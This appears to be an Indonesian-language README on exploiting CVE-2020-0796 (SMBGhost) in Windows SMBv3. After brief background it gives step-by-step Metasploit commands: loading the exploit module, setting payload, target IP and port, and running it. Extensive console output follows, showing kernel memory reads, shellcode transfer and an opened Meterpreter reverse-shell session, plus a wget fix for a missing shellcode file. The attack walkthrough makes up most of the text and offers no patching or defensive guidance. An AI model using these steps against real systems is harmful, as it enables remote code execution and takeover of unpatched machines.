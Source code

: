 # CVE-2020-0796

## A. Apa itu CVE-2020-0796?

[CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796), juga dikenal sebagai SMBGhost, adalah kerentanan Remote Code Execution (RCE) dalam `SMBv3` (Server Message Block versi 3) yang ditemukan pada Windows 10 dan Windows Server versi `1903` dan `1909`.

Kerentanan ini memungkinkan penyerang jarak jauh untuk mengeksekusi kode arbitrer pada sistem target hanya dengan mengirimkan paket `SMBv3` yang dibuat khusus. Dalam kondisi tertentu, kerentanan ini juga bisa dimanfaatkan untuk Local Privilege Escalation (LPE).

## B. Detail Teknis:
- CVE ID: `CVE-2020-0796`
- Tanggal Rilis: `10 Maret 2020`
- Tipe: Remote Code Execution (RCE) + Local Privilege Escalation (LPE)
- Protokol: `SMBv3`
- Komponen: `srv2.sys`
- Platform: `Windows 10` / `Server 1903` & `1909`
- Arsitektur: `x86` dan `x64`
- Skor CVSS: `10.0` (Kritis)

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `CVE-2020-0796`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2020-0796)

## D. Langkah Penggunaan di Metasploit:

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul Exploit CVE-2020-0796:

   ```
   msf6 > use exploit/windows/smb/cve_2020_0796_smbghost
   ```

3. Setting Parameter Penting:

   ```
   msf6 > set PAYLOAD <PAYLOAF>
   msf6 > set RHOSTS <IP_TARGET>
   msf6 > set RPORT 445
   msf6 > set DefangedMode false
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
4. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] 192.168.1.51:445 - Running automatic check ("set AutoCheck false" to disable)
   [!] 192.168.1.51:445 - The service is running, but could not be validated.
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000013000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000002000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000003000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000004000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000006000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000007000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000008000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000009000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000a000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000b000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000c000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000d000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000e000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000000f000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000010000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000011000
   [*] 192.168.1.51:445 - Found low stub at physical address 0x0000000000011000, virtual address 0xfffff79e8000e000
   [*] 192.168.1.51:445 - Found PML4 at 0x00000000001aa000 (BIOS)
   [*] 192.168.1.51:445 - Found HAL heap at 0xfffff79e80000000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aa800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaa00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aac00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae00
   [*] 192.168.1.51:445 - Found PML4 self-reference entry at 0x01c9
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf78
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000041003d0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004103000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001600
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001800
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001a00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001c00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000001e00
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004104008
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005200
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000000005400
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000000054c0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aaf80
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004308068
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004309210
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x000000000255ebb0
   [*] 192.168.1.51:445 - Found hal!HalpInterruptController at 0xfffff79e80001448
   [*] 192.168.1.51:445 - Found hal!HalpApicRequestInterrupt at 0xfffff8034855ebb0
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x00000000001aae48
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004100000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004101000
   [*] 192.168.1.51:445 - Reading from physical memory at index: 0x0000000004102000
   [*] 192.168.1.51:445 - KUSER_SHARED_DATA PTE NX bit cleared!
   [*] 192.168.1.51:445 - Transferring 1274 bytes of shellcode...
   [*] 192.168.1.51:445 - Transfer complete, hooking hal!HalpApicRequestInterrupt to trigger execution...
   [*] Sending stage (203846 bytes) to 192.168.1.51
   [*] Meterpreter session 26 opened (192.168.1.42:4444 -> 192.168.1.51:49672) at 2025-05-14 22:17:01 +0700
   [*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
   [*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...

   meterpreter > 
   ```

   Itu artinya kita sudah berhasil mengeksploitasi mesin terget.

## Tips Tambahan

Jika pada saat proses eksplotasi muncul error seperti ini:

```
[-] 192.168.1.51:445 - Exploit failed: Errno::ENOENT No such file or directory @ rb_sysopen - /usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
[*] 192.168.1.51:445 - Restoring the KUSER_SHARED_DATA PTE NX bit...
[*] 192.168.1.51:445 - Cleaning up the contents of KUSER_SHARED_DATA...
[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/cve_2020_0796_smbghost) >
```

Itu artinya file `kernel_shellcode.asm` tidak ada di direktori `/usr/share/metasploit-framework/external/source/exploits/CVE-2020-0796/RCE/`.

Untuk mengatasi error itu ketikkan perintah ini:

```
cd /usr/share/metasploit-framework
mkdir -p external/source/exploits/CVE-2020-0796/RCE/
wget https://raw.githubusercontent.com/rapid7/metasploit-framework/refs/heads/master/external/source/exploits/CVE-2020-0796/RCE/kernel_shellcode.asm
```

Jika sudah jalankan exploit lagi:

```
exploit
```
